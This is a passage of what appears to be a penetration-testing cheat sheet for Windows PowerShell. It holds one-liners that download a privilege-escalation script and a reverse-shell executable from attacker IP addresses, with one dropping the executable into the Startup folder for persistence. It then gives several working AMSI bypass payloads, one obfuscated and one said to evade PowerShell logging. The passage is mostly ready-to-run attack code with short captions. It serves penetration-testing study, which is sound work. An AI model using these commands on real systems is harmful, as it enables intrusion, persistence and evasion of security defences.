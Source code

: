 ```
# Any version
(New-Object System.Net.WebClient).DownloadFile("http://192.168.119.155/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")

# Powershell 4+
## You can use 'IWR' as a shorthand
Invoke-WebRequest "http://10.10.16.7/Rev.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Rev.exe"
```

#### for more file transfer techniques, check out [this section](broken-reference).

### <mark style="color:orange;">Bypass AMSI</mark>

‘Plain’ AMSI bypass example:

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

run this to bypass AMSI in the current powershell terminal that you are using:

```
powershell -ep bypass

SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Another bypass, which is not detected by PowerShell autologging:

```
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```

{% embed url="https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell" %}

#### For more info about AMSI refer to the [AMSI bypass](broken-reference) in AV Evasion.

## <mark style="color:red;">Loading Enumeration Tools</mark>

### [winapsearch](https://github.com/ropnop/windapsearch)
